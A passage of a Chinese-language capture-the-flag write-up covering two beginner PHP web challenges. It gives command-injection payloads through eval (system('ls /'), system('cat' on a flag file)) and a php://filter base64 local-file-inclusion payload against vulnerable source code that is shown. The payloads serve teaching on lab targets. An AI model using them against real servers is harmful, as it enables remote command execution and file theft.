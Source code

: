     if判断语句告诉我们，如果存在url变量则往下面执行eval函数，执行参数并且返回结果。
- 选择system可以将结果直接返回浏览器不需要加echo.
- ?url=system("ls /");
    ?代表拼接
    ls /代表列出目录文件，学过Linux系统的大部分都有所了解。
    代码意思是将外部执行命令ls /的结果赋值给url变量，最后在浏览器中显示结果。
    注意以;英文分号进行闭合。
- 使用cat命令查看flllllaaaaaaggggggg文件中的命令，需注意的是文件在/根目录下：
    ?url=system("cat /flllllaaaaaaggggggg");
![](./images/执行字符串命令.png)

### [SWPUCTF 2021 新生赛]include
#### 解题思路和过程：
- 题目是include，而且说是传入一个file看看，那就在url后面加？file来看看，结果显示了一些php源码
```
<?php
ini_set("allow_url_include","on");
header("Content-type: text/html; charset=utf-8");
error_reporting(0);
$file=$_GET['file'];
if(isset($file)){
    show_source(__FILE__);
    echo 'flag 在flag.php中';
}else{
    echo "传入一个file试试";
}
echo "</br>";
echo "</br>";
echo "</br>";
echo "</br>";
echo "</br>";
include_once($file);
?> flag 在flag.php中
```
- 看最后一段发现有include函数，这里ini_set("allow_url_include","on");直接包含的话可能会执行php代码而不显示flag的值，而伪协议可以将代码也视作文本输出，那么构造?file=php://filter/convert.base64-encode/resource=flag.php，读取文件源码，并通过Base64编码绕过执行直接获取内容，伪协议的规则是php://filter/过滤器|过滤器/resource=待过滤的数据流，convert.base64-encode是一种过滤器，read是用来指定读取的文章内容利用管道符，来进行条件的再筛选；
